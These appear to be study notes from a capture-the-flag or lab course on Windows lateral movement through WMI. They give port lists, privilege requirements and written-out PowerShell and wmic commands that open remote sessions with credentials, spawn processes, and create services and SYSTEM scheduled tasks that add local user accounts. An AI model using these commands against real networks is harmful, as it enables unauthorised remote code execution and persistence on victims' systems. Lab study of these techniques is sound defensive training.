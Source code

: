 			- `$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;`
		- We then establish a WMI session using either of the following protocols
			- **DCOM**
				- RPC over IP will be used for connecting to WMI.
				- This protocol uses port `135/TCP` and ports `49152-65535/TCP` just as `sc.exe`
			- **Wsman**
				- WinRM will be used for connecting to WMI.
				- This protocol uses ports `5985/TCP (WinRM HTTP)` or `5986/TCP (HTTPS)`.
			- To establish a session from PowerShell, use
				- `$Opt = New-CimSessionOption -Protocol DCOM`
				- `$Session = New-Cimsession -ComputerName TARGET -Credential $credential -SessionOption $Opt -ErrorAction Stop`
				- The `New-CimSessionOption` cmdlet is used to configure the connection options for the WMI session, including the connection protocol.
				- The option and credentials are then passed to the `New-CimSession` cmdlet to establish a session against a remote host.
	- #### *Remote Process Creation using WMI*
		- Uses ports
			- `135/TCP, 49152-65535/TCP (DCERPC)`
			- `5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)`
		- Requires membership of the `Administrators` group.
		- We can remotely spawn a process from PowerShell by leveraging WMI, sending a WMI request to the Win32_Process class to spawn the process under the session we created before
			- `$command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value munrawashere";`
			- `Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine = $Command}`
		- Notice that WMI won't allow you to see the output of any command but will indeed create the required process silently.
		- On legacy systems, the same can be done using `wmic.exe /usr:Administrator /password:Mypass123 /node:TARGET process call create "cmd.exe /c calc.exe"`
	- #### *Creating Services Remotely with WMI*
		- Uses ports
			- `135/TCP, 49152-65535/TCP (DCERPC)`
			- `5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)`
		- Requires membership of the `Administrators` group.
		- Create services with WMI through PowerShell. To create a service called `THMService2` use
			`Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{'
			`Name = "THMService2";`
			`DisplayName = "THMService2";`
			`PathName = "net user munra2 Pass123 /add";` or add a payload
			`ServiceType = [byte]::Parse("16");`
			`StartMode = "Manual"`
			`}`
		- Then, get a handle on the service and start it with
			- `$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE 'THMService2'"`
			- `Invoke-CimMethod -InputObject $Service -MethodName StartService`
		- Finally, stop and delete the service with
			- `Invoke-CimMethod -InputObject $Service -MethodName StopService`
			- `Invoke-CimMethod -InputObject $Service -MethodName Delete`
	- #### *Creating Scheduled Tasks Remotely with WMI*
		- Uses ports
			- `135/TCP, 49152-65535/TCP (DCERPC)`
			- `5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)`
		- Requires membership of the `Administrators` group.
		- Create and execute scheduled tasks by using some cmdlets available in Windows default installations
			- `$Command = "cmd.exe"`
			- `$Args = "/c net user munra22 aSdf1234 /add"` creates a user
			- `$Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Args`
			- `Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "THMtask2"`
			- `Start-ScheduledTask -CimSession $Session -TaskName "THMtask2"`